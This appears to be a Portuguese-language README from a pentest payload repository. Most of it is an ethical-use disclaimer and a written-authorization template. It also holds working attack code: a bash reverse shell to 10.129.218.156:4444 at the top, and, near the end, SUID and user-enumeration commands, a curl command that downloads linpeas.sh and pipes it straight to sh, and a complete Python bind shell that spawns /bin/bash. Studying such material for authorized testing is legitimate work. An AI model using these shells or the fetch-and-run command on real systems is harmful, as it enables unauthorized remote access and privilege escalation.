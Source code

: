 
10.129.218.156
bash -i >& /dev/tcp/10.129.218.156/4444 0>&1
[![Uso Ético](https://img.shields.io/badge/usage-ethical--only-blue.svg)]
# PAYLOADS
Aviso de Uso Ético e Responsável

> Importante: Este repositório contém materiais destinados exclusivamente a testes autorizados de segurança (pentest) e fins educacionais. O conteúdo pode incluir exemplos e ferramentas voltadas à avaliação de segurança — não deve ser usado para atividades ilegais, não autorizadas ou maliciosas.




---

Finalidade

O objetivo deste projeto é auxiliar profissionais de segurança e estudantes a entender vetores, montar laboratórios controlados e realizar testes de intrusão em ambientes onde haja autorização explícita. Conteúdo e exemplos servem como recursos pedagógicos para melhorar práticas de defesa, detecção e mitigação.


---

Autorização obrigatória

Você deve ter autorização explícita, por escrito, do proprietário do sistema ou do ambiente alvo antes de executar qualquer código ou teste derivado deste repositório. Exemplos de ambientes aceitáveis:

Máquinas virtuais, containers ou laboratórios isolados de sua propriedade;

Plataformas de treinamento/CTF com permissão para testes;

Ambientes de clientes com contrato e autorização documentada.



---

Proibições

É proibido utilizar qualquer conteúdo deste repositório para:

Atacar, comprometer, modificar ou acessar sistemas sem permissão;

Realizar atividades que violem leis locais, nacionais ou termos de serviço de terceiros;

Criar persistência, backdoors ou mecanismos que facilitem o acesso não autorizado em sistemas alheios.



---

Aviso de responsabilidade

Este projeto pode conter exemplos que ilustram técnicas de exploração (por exemplo, demonstrações usando Python, manipulação de permissões e shells) apenas para fins de teste controlado. O mantenedor e contribuidores não se responsabilizam por qualquer uso indevido, perda, dano ou violação legal resultante do uso dos materiais aqui publicados.

Ao usar este repositório você concorda em assumir total responsabilidade pelas suas ações e a cumprir todas as leis aplicáveis.


---

Boas práticas recomendadas

Teste somente em ambientes isolados (VMs, snapshots, redes internas de laboratório).

Mantenha backups e procedimentos de recuperação antes de qualquer teste.

Documente autorização por escrito sempre que realizar testes em sistemas de terceiros.

Aplique mitigação e correções após testes e reporte vulnerabilidades de forma responsável ao proprietário do ativo.

Use controle de versões e revisões de código para auditar experimentos.



---

Modelo de autorização (exemplo)

> Autorização para Teste de Segurança (Exemplo)

Eu, [NOME DO PROPRIETÁRIO], na qualidade de proprietário/gestor do sistema [IDENTIFICAR SISTEMA/AMBIENTE], autorizo [NOME DO TESTADOR] a realizar testes de segurança (pentest) no escopo definido abaixo, nas datas [DATA INI] a [DATA FIM], de acordo com as condições e limitações descritas.

Escopo: [hosts/IPs, serviços, portas e limites]

Limitações: [ex.: sem DoS, sem manipular dados de produção, backup obrigatório]





> Observação: Este é apenas um modelo e não substitui orientação legal ou contratos formais. Para pentests profissionais, utilize contratos e termos específicos com suporte jurídico.




---

Reporte de vulnerabilidades

Se você identificar um comportamento perigoso, erro grave ou um possível risco dentro deste repositório, por favor reporte de forma privada para o mantenedor no e‑mail: [SEU_CONTATO_AQUI] para que possamos avaliar e corrigir rapidamente.


---

Diretrizes de contribuição

Contribuições são bem‑vindas desde que sigam as diretrizes de uso ético e não incluam material que incentive ou facilite atividades ilegais. Ao submeter conteúdo, garanta que ele:

Seja educacional e documentado com contexto e mitigação;

Não inclua payloads funcionais destinados ao uso em alvos não autorizados;

Esteja acompanhado de instruções claras de segurança e requisitos de autorização.







---
Code para localizar SUID: find / -perm-4000 2>/dev/null

list: GTFOBINS

users_bash: cut -d: -f1 /etc/passwd
# ou
getent passwd | cut -d: -f1
# ou (mostra também UID)
getent passwd | awk -F: '{printf "%-20s UID:%s\n",$1,$3}'

#baixa e utiliza limpezas.sh
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh







#!/usr/bin/env python3
# bind_shell.py
import socket, os, pty

HOST = "0.0.0.0"   # escuta em todas as interfaces
PORT = 4444

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind((HOST, PORT))
s.listen(1)
print(f"[+] Listening on {HOST}:{PORT} ...")
conn, addr = s.accept()
print(f"[+] Connection from {addr}")

# dup socket para stdin/out/err e abrir um pty para interatividade
os.dup2(conn.fileno(), 0)
os.dup2(conn.fileno(), 1)
os.dup2(conn.fileno(), 2)
pty.spawn("/bin/bash")

conn.close()
s.close()